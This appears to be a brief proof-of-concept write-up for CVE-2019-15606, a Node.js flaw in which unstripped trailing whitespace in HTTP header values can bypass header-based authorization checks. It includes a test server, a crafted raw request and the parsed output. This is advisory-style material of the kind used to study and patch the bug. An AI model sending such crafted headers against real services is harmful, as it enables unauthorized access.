 # CVE-2019-15606

Including trailing white space in HTTP header values in Nodejs 10, 12, and 13 causes bypass of authorization based on header value comparisons.

## Affected Versions

Node.js before version v10.19.0, v12.15.0, v13.8.0.

## PoC

```js
const http = require('http');
const net = require('net');

const server = http.createServer();

server.on('request', function(req, res) {
  console.log(req.headers);
  res.writeHead(200, {'Content-Type' : 'text/plain'});
  res.write('hello world');
  res.end();
});

server.listen(12345);
```

```
GET / HTTP/1.1
Host: localhost:12345
User-Agent: curl/7.54.0
Accept: */*
X-Token: 123456  
Connection: close
```

```json
{
  host: 'localhost:12345',
  'user-agent': 'curl/7.54.0',
  accept: '*/*',
  'x-token': '123456\t ', # not striped OWS
  connection: 'close'
}
```

## References

- https://nvd.nist.gov/vuln/detail/CVE-2019-15606
- https://nodejs.org/en/blog/vulnerability/february-2020-security-releases/
- https://github.com/nodejs/node/commit/2eee90e959
